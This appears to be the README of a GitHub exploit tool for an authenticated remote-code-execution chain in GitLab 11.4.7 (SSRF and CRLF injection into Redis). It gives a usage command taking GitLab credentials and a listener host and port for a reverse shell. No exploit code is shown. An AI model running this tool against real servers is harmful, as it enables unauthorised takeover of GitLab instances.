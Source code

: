 # GitLab-11.4.7-Authenticated-Remote-Code-Execution        
# (SSRF + CRLF -> Redis -> RCE)

<h4> Blog : https://github.com/jas502n/gitlab-SSRF-redis-RCE/blob/master/README.md </h4>


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

 <p> -h, --help show this help message and exit </p>
 <p> -U         GitLab Username </p>
 <p> -P         Gitlab Password </p>
 <p> -l         rev shell lhost </p>
 <p> -p         rev shell lport </p> 
